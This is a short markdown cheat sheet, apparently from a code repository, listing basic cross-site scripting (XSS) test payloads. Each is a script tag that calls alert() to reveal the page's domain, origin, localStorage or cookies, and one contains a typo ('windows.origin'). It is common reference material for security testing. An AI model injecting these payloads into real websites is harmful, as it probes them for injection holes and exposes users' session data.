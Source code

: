 # XSS payloads

[Cross-Site Scripting](https://owasp.org/www-community/attacks/xss/) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.

## Basic XSS test payloads


```html
<script>alert(1)</script>

<script>alert(document.domain)</script>

<script>alert(windows.origin)</script>

<script>alert(window.localStorage)</script>

<script>alert(window.document.cookie)</script>

<script>alert(String.fromCharCode(0x58,0x53,0x53))</script>
```